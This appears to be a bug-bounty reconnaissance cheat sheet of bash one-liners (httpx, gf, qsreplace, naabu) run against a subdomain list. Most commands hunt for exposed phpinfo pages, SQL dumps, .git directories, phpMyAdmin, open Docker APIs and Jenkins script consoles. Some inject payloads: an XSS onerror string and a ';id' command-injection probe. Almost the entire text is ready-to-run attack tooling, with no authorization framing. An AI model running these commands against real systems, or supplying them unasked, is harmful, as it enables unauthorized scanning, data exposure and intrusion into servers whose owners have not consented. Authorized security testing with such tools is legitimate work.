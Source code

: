 Find Servers Exposing phpinfo() (Sensitive Config)
```bash
cat subdomains.txt | httpx -silent -path /phpinfo.php -mc 200 -o phpinfo_exposed.txt
```

Detect Publicly Accessible Swagger APIs
```bash
cat subdomains.txt | httpx -silent -path /swagger-ui/ -mc 200 -o swagger_exposed.txt
```

Search for SQL Dumps and Backup Files (db.sql/db.zip)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/db.sql\n/backup.sql\n/database.sql') -mc 200 -o sql_dumps_exposed.txt
```

Detect LFI Points (path traversal)
```bash
cat subdomains.txt | gf lfi | httpx -silent -o lfi_possible_urls.txt
```

Identify Reflected XSS via GET Parameters
```bash
cat subdomains.txt | gf xss | qsreplace '"><img src=x onerror=alert(document.domain)>' | httpx -silent -fr '"><img src=x onerror=alert' -o reflected_xss.txt
```

Find Outdated WordPress Versions (Vuln Detection)
```bash
cat subdomains.txt | httpx -silent -path /readme.html -mc 200 -o wordpress_readme.txt
```

Search for PHPMyAdmin Exposed Panels
```bash
cat subdomains.txt | httpx -silent -path /phpmyadmin -mc 200 -o phpmyadmin_exposed.txt
```

Detect Command Injection Points
```bash
cat subdomains.txt | gf command-injection | qsreplace ';id' | httpx -silent -fr 'uid=' -o cmd_injection.txt
```

Find Exposed Docker Daemon API (Remote Control)
```bash
naabu -list subdomains.txt -p 2375 -silent | httpx -silent -o docker_api_exposed.txt
```

Identify Open Git Directories (.git Exposed)
```bash
cat subdomains.txt | httpx -silent -path /.git/config -mc 200 -o git_dirs_exposed.txt
```

Scan for Exposed Server Status Pages (Apache/Nginx)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/server-status\n/nginx-status') -mc 200 -o server_status_exposed.txt
```

Detect Open Jenkins Panels with Script Console
```bash
cat subdomains.txt | httpx -silent -path /script -mc 200 -o jenkins_script_console.txt
```
